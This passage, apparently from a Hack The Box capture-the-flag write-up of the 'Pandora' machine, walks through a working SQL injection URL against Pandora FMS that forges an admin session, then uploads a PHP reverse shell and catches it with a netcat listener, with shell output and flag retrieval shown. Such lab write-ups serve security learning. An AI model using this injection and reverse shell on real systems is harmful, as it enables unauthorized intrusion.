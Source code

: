 Next, let us attempt to exploit the SQL Injection vulnerability on Pandora FMS to gain authenticated access into ```pandora_console```. To do that, let us first visit ```http://127.0.0.1/pandora_console/include/chart_generator.php?session_id=%27%20union%20SELECT%201,2,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20--%20SgGO'```. Afterward, all we have to do, is to visit http://127.0.0.1/pandora_console and we can gain access into the console. 

### Reverse shell on authenticated Pandora FMS
Next, all we have to do is to upload the reverse shell payload onto file upload manager. 
![File upload](https://github.com/joelczk/writeups/blob/main/HTB/Images/Pandora/file_upload.png)

Afterwards, we can spawn the reverse shell by visiting http://127.0.0.1/pandora_console/images/reverse.php.

```
┌──(HTB)─(kali㉿kali)-[~/Desktop/pandora]
└─$ nc -nlvp 4000
listening on [any] 4000 ...
connect to [10.10.16.8] from (UNKNOWN) [10.10.11.136] 56582
Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 05:04:21 up 32 min,  1 user,  load average: 0.03, 0.18, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
daniel   pts/0    10.10.16.8       04:33   31:04   0.02s  0.02s -bash
uid=1000(matt) gid=1000(matt) groups=1000(matt)
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
matt@pandora:/$ export TERM=xterm
export TERM=xterm
matt@pandora:/$ stty cols 132 rows 34
stty cols 132 rows 34
```

### Obtaining user flag
```
matt@pandora:/home/matt$ cat /home/matt/user.txt
cat /home/matt/user.txt
<Redacted user flag>
```
